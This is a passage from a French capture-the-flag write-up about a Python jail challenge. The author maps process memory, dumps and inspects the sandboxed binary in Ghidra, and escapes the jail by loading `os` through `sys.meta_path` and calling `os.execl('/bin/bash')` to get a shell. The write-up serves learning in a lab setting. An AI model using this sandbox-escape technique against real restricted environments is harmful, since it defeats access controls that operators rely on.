 ```text
7f5b9632c000-7f5b9634a000 r-xp 00001000 09:03 14549310                   /lib/x86_64-linux-gnu/ld-2.30.so
7f5b9634a000-7f5b96352000 r--p 0001f000 09:03 14549310                   /lib/x86_64-linux-gnu/ld-2.30.so
7f5b96353000-7f5b96354000 r--p 00027000 09:03 14549310                   /lib/x86_64-linux-gnu/ld-2.30.so
7f5b96354000-7f5b96355000 rw-p 00028000 09:03 14549310                   /lib/x86_64-linux-gnu/ld-2.30.so
7f5b96355000-7f5b96356000 rw-p 00000000 00:00 0 
7ffe9728e000-7ffe972af000 rw-p 00000000 00:00 0                          [stack]
7ffe9735c000-7ffe9735f000 r--p 00000000 00:00 0                          [vvar]
7ffe9735f000-7ffe97361000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
```

Fantastique : il semblerait que le serveur soit en fait lancé par un binaire nommé `/app/spython`, et on remarque aussi l'existence d'un fichier très intéressant nommé `/app/lib_flag.so`. Probablement la fonction `print_flag` tant recherchée se trouve à l'intérieur !

On dump le binaire `spython`, par exemple en l'encodant en hexadécimal et en le rapatriant sur sa machine à l'aide d'un habile copier-coller :

```python
tohex = L('binascii').hexlify
tohex(open('spython', 'rb').read())
```

On l'analyse avec Ghidra. Le binaire utilise l'API CPython et semble utiliser une mécanique de _hooks_ pour bloquer certaines opérations, mais je ne connais pas le fonctionnement plus en détail et je n'ai pas réussi à comprendre exactement tout le fonctionnement du binaire. Heureusement ce n'est pas très important pour réussir l'épreuve.

![](https://i.imgur.com/OAK8Q9V.png)

On remarque la fonction `welcome` qui affiche le message du début : ce symbole n'existe pas dans le binaire, il provient certainement de la fameuse `lib_flag.so`.

Essayons d'ailleurs de lire ce fichier :

```python
>>> open('lib_flag.so', 'rb')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.8/codecs.py", line 905, in open
    file = builtins.open(filename, mode, buffering)
PermissionError: [Errno 13] Permission denied: 'lib_flag.so'
```

Mince... A ce moment-là je me suis dit que j'allais continuer à traiter l'épreuve comme une jail classique, et j'ai trouvé le moyen d'importer `os` et d'obtenir un shell. Spoiler alert, ce shell ne sert à rien pour la résolution.

```python
>>> sys = L('sys')
>>> os = sys.meta_path[2].find_module('os').load_module('os')
>>> shell = lambda: os.execl('/bin/bash','/bin/bash')
>>> shell()
bash: cannot set terminal process group (15810): Inappropriate ioctl for device
bash: no job control in this shell
ctf@whynotasandbox:/app$ ls -la
total 40
drwxr-xr-x 1 root     root  4096 Apr 25 20:58 .
drwxr-xr-x 1 root     root  4096 Apr 25 20:59 ..
-r-------- 1 ctf-init ctf  16064 Apr 25 20:58 lib_flag.so
-r-sr-x--- 1 ctf-init ctf  14904 Apr 25 20:58 spython
```
